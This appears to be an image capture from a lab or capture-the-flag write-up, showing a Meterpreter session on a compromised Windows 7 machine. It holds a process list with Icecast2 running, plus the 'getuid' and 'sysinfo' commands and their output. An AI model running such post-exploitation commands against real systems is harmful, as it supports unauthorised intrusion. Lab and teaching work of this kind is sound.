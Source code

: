     Process List
    ============
    
     PID   PPID  Name                  Arch  Session  User          Path
     ---   ----  ----                  ----  -------  ----          ----
     0     0     [System Process]                                   
     4     0     System                                             
     100   2632  mscorsvw.exe                                       
     416   4     smss.exe                                           
     492   692   svchost.exe                                        
     544   536   csrss.exe                                          
     584   692   svchost.exe                                        
     596   536   wininit.exe                                        
     604   584   csrss.exe                                          
     652   584   winlogon.exe                                       
     692   596   services.exe                                       
     700   596   lsass.exe                                          
     708   596   lsm.exe                                            
     816   692   svchost.exe                                        
     884   692   svchost.exe                                        
     932   692   svchost.exe                                        
     1060  692   svchost.exe                                        
     1136  692   svchost.exe                                        
     1260  692   spoolsv.exe                                        
     1324  692   svchost.exe                                        
     1428  692   taskhost.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\taskhost.exe
     1500  692   amazon-ssm-agent.exe                               
     1512  492   dwm.exe               x64   1        Dark-PC\Dark  C:\Windows\System32\dwm.exe
     1524  1484  explorer.exe          x64   1        Dark-PC\Dark  C:\Windows\explorer.exe
     1704  692   LiteAgent.exe                                      
     1724  816   WmiPrvSE.exe                                       
     1744  692   svchost.exe                                        
     1800  692   sppsvc.exe                                         
     1884  692   Ec2Config.exe                                      
     2124  692   svchost.exe                                        
     2252  1524  Icecast2.exe          x86   1        Dark-PC\Dark  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe
     2300  692   vds.exe                                            
     2316  816   WmiPrvSE.exe                                       
     2472  692   TrustedInstaller.exe                               
     2560  692   SearchIndexer.exe                                  
     2608  584   taskeng.exe                                        
     2632  692   mscorsvw.exe                                       
     2916  692   mscorsvw.exe                                       
    
    meterpreter > getuid
    Server username: Dark-PC\Dark
    meterpreter > sysinfo
    Computer        : DARK-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
